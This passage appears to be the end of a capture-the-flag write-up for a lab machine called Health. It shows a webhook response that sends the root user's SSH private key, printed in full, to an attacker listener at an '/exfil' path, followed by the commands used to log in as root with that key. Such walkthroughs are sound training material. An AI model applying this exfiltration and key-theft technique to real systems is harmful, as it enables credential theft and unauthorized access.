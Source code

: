     {"webhookUrl":"http:\/\/10.10.14.6:9001\/exfil","monitoredUrl":"\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
    

### SSH

I’ll need to clean up the key. I can do it in `vim` with substitutions:

  * `:%s/\\n/^M/g` will replace the `\n` with newlines (where `^M` is made by hitting Ctrl-v and then Enter)
  * `:%s!\\\/!/!g` will replace the escaped `/` without the escapes.

With the key, I can SSH as root:

    
    
    oxdf@hacky$ vim ~/keys/health-root
    oxdf@hacky$ chmod 600 ~/keys/health-root
    oxdf@hacky$ ssh -i ~/keys/health-root root@health.htb
    Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-191-generic x86_64)
    ...[snip]...
    root@health:~# 
    

And read the flag:

    
    
    root@health:~# cat root.txt
    1f58dc17************************
    

[](/2023/01/07/htb-health.html)

